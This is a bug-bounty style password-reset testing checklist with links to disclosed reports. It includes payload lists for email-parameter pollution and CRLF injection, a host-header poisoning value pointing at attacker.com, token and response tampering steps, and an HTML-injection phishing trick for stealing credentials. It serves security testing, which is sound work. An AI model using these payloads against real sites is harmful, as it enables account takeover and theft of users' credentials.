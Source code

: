 ```yaml
---
description: Password Reset Security testing Checklist
---
```


# Reset Password

* [ ] [**Weak Cryptography to Account Takeover’s**](https://vasuyadav0786.medium.com/weak-cryptography-to-account-takeovers-87782224ed0d)
* [ ] [**Weak Cryptography in Password Reset**](https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9)
*   [ ] [Host Header Poisoning](https://hackerone.com/reports/1108874) [0xacb.com/normalization\_table](https://0xacb.com/normalization_table)

    ```python
    victim.com@attacker.com 
    ```
* [ ] [**IDN Homograph Attack leads to ATO**](https://infosecwriteups.com/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff)
* [ ] _**Password reset with manipulating email parameter (BAC)**_

```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```

```python
step 1: Attacker Enter the victim's email or mobile number into the forgot password field.
step 2: Attacker intercept the request and got JSON data like that

{“email”:”victim@gmail.com”,”token”:”1234"}
step 3: Attacker change victim email to his email id

{“email”:”attacker@gmail.com”,”token”:”1234"}
and forward the request.

*Notice on the old token is deactivated or not.
```

*   [ ] **Response Manipulation to ATO**

    ```jsx
    1. Do Normal Reset Password Process and note the successful  response 
    2. Request for reset password token 
    3. enter 00000 or any random number 
    4. Intercept the response
    5. delete error message and change the status code to 200 and change body like what you noted in step1
    ```
*   [ ] IDOR to ATO

    **IDOR on Reset Password**

    The last one was also an Basic IDOR, When I requested for reset password then the request response looks like this

    ![https://miro.medium.com/v2/1\*7GQ1sbFDEllEY1kpQodGoA.jpeg](https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg)

    Then OTP came to my email and I entered the OTP but when I entered new password and captured that request

    ![https://miro.medium.com/v2/1\*Vk7-7Tdd\_bFmWAul2\_BsSQ.jpeg](https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg)

    Then I noticed there was no OTP field, but there was a user id, which was encrypted but was being leaked in the response, so I just replaced it with the user id of another account, and bam, my other account’s password was changed.
*   [ ] Race Condition

    [Lab: Exploiting time-sensitive vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
*   [ ] Play with token

    ```python
    1- Completely remove the token
    2- change it to 00000000...
    3- use null/nil value
    4- try expired token
    5- try an array of old tokens
    6- look for race conditions
    7- change 1 char at the begin/end to see if the token is evaluated
    8- use unicode char jutzu to spoof email address
    ```
* [ ] [**Password reset broken logic \[Portswigger\]**](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)
* [ ] [**No length on password**](https://hackerone.com/reports/1411363)
* [ ] [xss\_html-injection.md](../xss_html-injection.md "mention") **in email section**
* [ ] [**Reset/Forgotten Password Bypass \[Hacktricks\]**](https://book.hacktricks.xyz/pentesting-web/reset-password)
* [ ] [**Bruteforcing password reset tokens**](https://hackerone.com/reports/271533)
* [ ] [**No Rate Limit On Reset Password**](https://hackerone.com/reports/1166066)
* [ ] [**Enumeration of username on password reset page**](https://hackerone.com/reports/806151)
* [ ] [**Password reset token leaked via Referer header**](https://hackerone.com/reports/1320242)
  * Request password reset to your email address
  * Click on the password reset link
  * Dont change password
  * Click any 3rd party websites(eg: Facebook, twitter)
  * Intercept the request in burpsuite proxy
  * Check if the referer header is leaking password reset token. **Reference:**
  * [https://hackerone.com/reports/342693](https://hackerone.com/reports/342693)
  * [https://hackerone.com/reports/272379](https://hackerone.com/reports/272379)
  * [https://hackerone.com/reports/737042](https://hackerone.com/reports/737042)
  * [https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a](https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a)
  * [https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1](https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1) **Impact** It allows the person who has control of particular site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
* [ ] [**Failure to Invalidate Session > On Password Reset**](https://hackerone.com/reports/411337)
*   [ ] [**HTML\_Injection\_on\_password\_reset\_page**](https://github.com/KathanP19/HowToHunt/blob/master/HTML_Injection/HTML_Injection_on_password_reset_page.md)

    ```
    ### Steps

    1. Create your account
    2. Edit your name to `<h1>attacker</h1>` or `"abc><h1>attacker</h1>` and save it.
    3. Request for a reset password and check your email.
    4. You will notice the `<h1>` tag getting executed

    * HTML injection are usually considered as low to medium severity bugs but you can escalate the severity by serving a
    malicious link by using `<a href>` for eg: `<h1>attacker</h1><a href="your-controlled-domain"Click here</a>`

    * You can redirect the user to your malicious domain and serve a fake reset password page to steal credentials
    Also you can serve a previously found XSS page and steal user cookies etc etc.. The creativity lies on you..

    ```
* [ ] **Password Reset Token Sent Over HTTP**
* [ ] **Token is Not Invalidated After Use**
* [ ] **Cleartext Transmission of Session Token**
* [ ] [**Password Policy Restriction Bypass**](https://hackerone.com/reports/1675730)
* [ ] Token is Not Invalidated After Email Change/Password Change
  * [Chaturbate | Report #411337 - Forget password link not expiring after email change. | HackerOne](https://hackerone.com/reports/411337)
* [ ] Token Has Long Timed Expiry
* [ ] Token is Not Invalidated After New Token is Requested
* [ ] Token is Not Invalidated After Login
* [ ] If there is a feature to reset password using username then try make two accounts with the same username but different emails&#x20;

{% embed url="https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf" %}

*   [ ] CRLF in URL

    ```
    with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
    ```
